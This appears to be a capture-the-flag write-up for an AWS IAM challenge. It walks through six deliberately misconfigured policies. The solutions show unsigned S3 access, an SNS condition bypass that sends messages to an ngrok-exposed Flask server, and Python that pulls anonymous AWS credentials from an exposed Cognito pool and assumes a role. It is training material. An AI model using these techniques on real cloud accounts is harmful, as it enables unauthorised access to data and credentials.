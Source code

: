 # AWS IAM Challenge

## challenge 1

All you need to is to use **awscli** to navigate a S3 Bucket:

`aws s3 cp s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt -`

## challenge 2

In order to pass this one you just need to pull messages from the queue:
```bash
aws sqs receive-message \
        --queue-url https://sqs.us-east-1.amazonaws.com/XXXXX/XXXXX
```

## challenge 3

This policy is given, we just need to subscribe to the SNS topic and bypass the condition which is `*@tbic.wiz.io`.
```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:123123123123:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```
Then we create a simple web server with that bypassing http endpoint and then print any response with a `print()`, flag appears there:
```python
from flask import Flask, request
import json
import requests

app = Flask(__name__)

@app.route('/blah@tbic.wiz.io', methods=['POST'])
def handle_notification():
    message = json.loads(request.data)
    print(message)
    return 'OK', 200

if __name__ == '__main__':
    app.run(port=5000)
```
Once we have running our custom web server, we expose it to internet with `ngrok`, we get the public endpoint and finally subscribe to the SNS:
```bash
aws sns subscribe \
        --topic-arn arn:aws:sns:us-east-1:123123123123:TBICWizPushNotifications \
        --protocol https \
        --notification-endpoint 'https://104c-2800-cd0-c42-2700-e1df-d5ec.sa.ngrok.io/blah@tbic.wiz.io'
```

Then we have to pay attention to our Flask console logs, flag is sent there from AWS.

## challenge 4

Now this Policy is given. Notice that any `Principal` is allowed to make requests.
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```
So we just skip authentication with `--no-sign-request`:
```bash
aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/
aws s3 cp --no-sign-request s3://thebigiamchallenge-admin-storage-abf1321/files/flag2.txt -
```

## challenge 5
On this one, you will realize that the website is using Cognito as Identity Provider, the trick here is that the pool id is being exposed (in the same web page) and people can anonymously get AWS Credentials.
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": [
                "mobileanalytics:PutEvents",
                "cognito-sync:*"
            ],
            "Resource": "*"
        },
        {
            "Sid": "VisualEditor1",
            "Effect": "Allow",
            "Action": [
                "s3:GetObject",
                "s3:ListBucket"
            ],
            "Resource": [
                "arn:aws:s3:::wiz-privatefiles",
                "arn:aws:s3:::wiz-privatefiles/*"
            ]
        }
    ]
}
```

So we just need to grab the pool id and request AWS Credentials:
```python
import boto3

identity_pool_id = 'us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b'
identity_client = boto3.client('cognito-identity', 'us-east-1')

identity_response = identity_client.get_id(IdentityPoolId=identity_pool_id)
creds = identity_client.get_credentials_for_identity(IdentityId=identity_response['IdentityId'])

print(f"export AWS_ACCESS_KEY_ID={creds['Credentials']['AccessKeyId']}")
print(f"export AWS_SECRET_ACCESS_KEY={creds['Credentials']['SecretKey']}")
print(f"export AWS_SESSION_TOKEN={creds['Credentials']['SessionToken']}")
```
Now we can grab the flag:
`aws s3 cp s3://wiz-privatefiles/flag1.txt -`


## challenge 6

This one is similar to the previous, the only thing here is that we have to Assume a Role with Web Identity.
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "cognito-identity.amazonaws.com:aud": "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
                }
            }
        }
    ]
}
```
```python
import boto3

identity_pool_id = 'us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b'
identity_client = boto3.client('cognito-identity', 'us-east-1')

role_to_assume_arn = 'arn:aws:iam::123123123123:role/Cognito_s3accessAuth_Role'

identity_response = identity_client.get_id(IdentityPoolId=identity_pool_id)
identity_id = identity_response['IdentityId']
creds = identity_client.get_credentials_for_identity(IdentityId=identity_response['IdentityId'])

cognito_client = boto3.client('cognito-identity', 'us-east-1')
open_id_token_response = cognito_client.get_open_id_token(IdentityId=identity_id)
open_id_token = open_id_token_response['Token']

sts_client = boto3.client('sts')
creds = sts_client.assume_role_with_web_identity(
    RoleArn=role_to_assume_arn,
    RoleSessionName='AssumeRoleSession',
    WebIdentityToken=open_id_token,
)

print(f"export AWS_ACCESS_KEY_ID={creds['Credentials']['AccessKeyId']}")
print(f"export AWS_SECRET_ACCESS_KEY={creds['Credentials']['SecretAccessKey']}")
print(f"export AWS_SESSION_TOKEN={creds['Credentials']['SessionToken']}")
```
And now we can grab the flag:
`aws s3 cp s3://wiz-privatefiles-x1000/flag2.txt -`
